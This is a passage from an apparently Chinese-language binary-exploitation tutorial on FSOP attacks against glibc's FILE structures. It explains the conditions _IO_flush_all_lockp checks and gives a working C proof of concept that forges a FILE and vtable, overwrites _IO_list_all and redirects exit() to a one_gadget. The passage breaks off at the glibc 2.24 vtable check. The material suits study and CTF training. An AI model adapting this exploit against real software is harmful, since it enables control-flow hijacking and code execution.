 `_IO_flush_all_lockp` 函数不需要手动调用，在一些情况下这个函数会被系统调用：

- 当 libc 执行 abort 流程时
- 当执行 `exit` 函数时
- 当执行流从 `main` 函数返回时

`_IO_list_all` 作为 libc 中的全局变量，需要获取 libc 基址才能得到 `_IO_list_all` 的地址。要实现 FSOP，还需要使构造的 FILE 能够正常工作，也就是需要 `fp->_mode` 的值为 0，`fp->_IO_write_ptr` 要大于 `fp->_IO_write_base`：

```cpp
if ((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
```

伪造 `_IO_list_all` 和 `vtable`，最后 `exit` 时会 Call 到构造的 `_IO_overflow` 上：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define write_ptr_offset 0x28
#define write_base_offset 0x20
#define vtable_offset 0xd8
#define one_gadget 0x7ffff7a0d000+0xf02a4

int main() {
    void *ptr, *fake_vtable;
    uint64_t *list_all_ptr;
    ptr = malloc(0x200);
    fake_vtable = (uint64_t)ptr + 0x100;

    *(uint64_t *)((uint64_t)ptr + mode_offset) = 0;
    *(uint64_t *)((uint64_t)ptr + write_ptr_offset) = 1;
    *(uint64_t *)((uint64_t)ptr + write_base_offset) = 0;
    *(uint64_t *)((uint64_t)ptr + vtable_offset) = (uint64_t)ptr + 0x100;
    *(uint64_t *)((uint64_t)fake_vtable + 0x18) = one_gadget;

    list_all_ptr = (uint64_t *)_IO_list_all;
    list_all_ptr[0] = ptr;
    exit(0);
}
```

## Attack with IO_FILE >= glibc-2.24

从 glibc-2.24 起，加入了针对 `_IO_FILE_plus->vtable` 的检查，在调用虚函数时会首先检查 vtable 地址的合法性。先验证 vtable 是否在 `_IO_vtable` 段中，如果满足条件就正常执行；否则调用 `_IO_vtable_check` 进一步检查。具体验证通过计算 `__stop___libc_IO_vtables - __start___libc_IO_vtables` 的值 `section_length`，然后获取 vtable 到 `__start___libc_IO_vtables` 的偏移 `offset`，若 `offset` 大于等于 `section_length` 就会调用 `_IO_vtable_check`：
